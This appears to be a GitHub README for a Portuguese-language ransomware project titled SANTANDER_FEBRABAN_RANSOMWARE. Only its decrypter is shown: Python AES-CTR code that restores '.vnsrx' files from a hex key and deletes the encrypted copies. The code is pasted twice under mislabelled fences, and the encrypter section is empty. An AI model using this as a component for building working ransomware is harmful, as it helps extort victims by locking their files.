 # SANTANDER_FEBRABAN_RANSOMWARE

ENCRYPTER


DECRYPTER

'''c
import os
import pyaes

def decrypt_file(file_name, key):
   # Lê os dados do arquivo criptografado
   with open(file_name, "rb") as file:
       encrypted_data = file.read()

   # Cria um objeto AES
   aes = pyaes.AESModeOfOperationCTR(key)

   # Descriptografa os dados
   decrypted_data = aes.decrypt(encrypted_data)

   # Salva os dados descriptografados em um novo arquivo sem a extensão .vnsrx
   new_file_name = file_name.replace('.vnsrx', '')
   with open(new_file_name, "wb") as file:
       file.write(decrypted_data)

   print(f"Arquivo {file_name} descriptografado com sucesso e salvo como {new_file_name}!")

   # Verifica se o arquivo descriptografado foi criado com sucesso
   if os.path.isfile(new_file_name):
       # Remove o arquivo criptografado
       os.remove(file_name)
       print(f"Arquivo criptografado {file_name} foi removido.")
   else:
       print(f"Erro: O arquivo descriptografado {new_file_name} não foi criado. O arquivo criptografado não será removido.")

def main():
   # Solicita ao usuário que insira a chave de descriptografia em formato hexadecimal
   key_hex = input("Digite a chave de descriptografia em formato hexadecimal (64 caracteres): ").strip()

   # Verifica se a chave tem exatamente 64 caracteres (32 bytes em hexadecimal)
   if len(key_hex) != 64:
       print("A chave deve ter exatamente 64 caracteres em formato hexadecimal.")
       return

   # Converte a chave de hexadecimal para bytes
   key = bytes.fromhex(key_hex)

   # Lista todos os arquivos no diretório atual
   for file_name in os.listdir('.'):
       # Verifica se o arquivo é criptografado
       if os.path.isfile(file_name) and file_name.endswith('.vnsrx'):
           decrypt_file(file_name, key)

   print("Todos os arquivos criptografados foram descriptografados e removidos.")

if __name__ == "__main__":
   main()

   '''c
   import os
import pyaes

def decrypt_file(file_name, key):
   # Lê os dados do arquivo criptografado
   with open(file_name, "rb") as file:
       encrypted_data = file.read()

   # Cria um objeto AES
   aes = pyaes.AESModeOfOperationCTR(key)

   # Descriptografa os dados
   decrypted_data = aes.decrypt(encrypted_data)

   # Salva os dados descriptografados em um novo arquivo sem a extensão .vnsrx
   new_file_name = file_name.replace('.vnsrx', '')
   with open(new_file_name, "wb") as file:
       file.write(decrypted_data)

   print(f"Arquivo {file_name} descriptografado com sucesso e salvo como {new_file_name}!")

   # Verifica se o arquivo descriptografado foi criado com sucesso
   if os.path.isfile(new_file_name):
       # Remove o arquivo criptografado
       os.remove(file_name)
       print(f"Arquivo criptografado {file_name} foi removido.")
   else:
       print(f"Erro: O arquivo descriptografado {new_file_name} não foi criado. O arquivo criptografado não será removido.")

def main():
   # Solicita ao usuário que insira a chave de descriptografia em formato hexadecimal
   key_hex = input("Digite a chave de descriptografia em formato hexadecimal (64 caracteres): ").strip()

   # Verifica se a chave tem exatamente 64 caracteres (32 bytes em hexadecimal)
   if len(key_hex) != 64:
       print("A chave deve ter exatamente 64 caracteres em formato hexadecimal.")
       return

   # Converte a chave de hexadecimal para bytes
   key = bytes.fromhex(key_hex)

   # Lista todos os arquivos no diretório atual
   for file_name in os.listdir('.'):
       # Verifica se o arquivo é criptografado
       if os.path.isfile(file_name) and file_name.endswith('.vnsrx'):
           decrypt_file(file_name, key)

   print("Todos os arquivos criptografados foram descriptografados e removidos.")

if __name__ == "__main__":
   main()

